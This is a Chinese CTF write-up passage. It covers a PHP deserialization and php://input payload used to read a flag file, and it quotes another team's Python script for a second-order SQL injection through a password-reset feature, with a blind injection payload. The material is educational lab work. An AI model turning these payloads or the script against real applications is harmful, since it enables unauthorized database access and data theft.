 是让传三个参数`user,file,pass`，然后先构造`user=php://input`,post值`the user is admin`。`file=class.php`，`pass=O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}`反序列化去读取`f1a9.php`。直接出`flag`。

![](http://7xi72v.com1.z0.glb.clouddn.com/16-9-10/78532530.jpg)

### 10 、三秒钟记忆
> 三秒钟记忆
300
最近只有三秒钟记忆，忘记的事情总是要一遍一遍的找回来...
http://huashan.xdsec.cn/pic

这题也没做出来

也是看了师傅们的wp
**`二次注入，触发点在密码找回那边。exp：`**
```py
import requests
import base64
import os
import random
#by mathias@xdsec
# Copyright (c) 7 team  All rights reserved
def regist(usr):
    flag=False
    url="http://huashan.*****.cn/pic/index.php?page=login"
    payload={'name':usr,'pass':'123456','email':'123456','register':'%E6%B3%A8%E5%86%8C'}
    r=requests.post(url,data=payload)
    txt=r.text.encode('utf-8')
    if 'Duplicate' in txt or len(txt)==503:
        flag=True
    return flag

def reset(usr):
    flag=False
    url="http://huashan.*****.cn/pic/index.php?page=login"
    payload={'name':usr,'reset':'%E5%BF%98%E8%AE%B0%E5%AF%86%E7%A0%81'}
    r=requests.post(url,data=payload)
    if len(r.text)==460:
        flag=True
    return flag

if __name__=="__main__":

    url="http://huashan.*****.cn/pic/index.php?page=login"
    flag=False
    user=str(random.randint(10000000000,99999999999))
    p=user+'\' and (select ascii(substr(flag,1,1)) from flag)>50#' 
    flag=regist(user)
    if not flag:
        print "regist "+user+" error"
        os._exit()
    else:
        print "regist "+user+" success"

    flag=regist(p)
    if not flag:
        print "regist "+p+" error"
        os._exit()
    else:
        print "regist "+p+" success,now reset password"

    flag=reset(p)
    if flag:
        print "Reset success,now inject"
```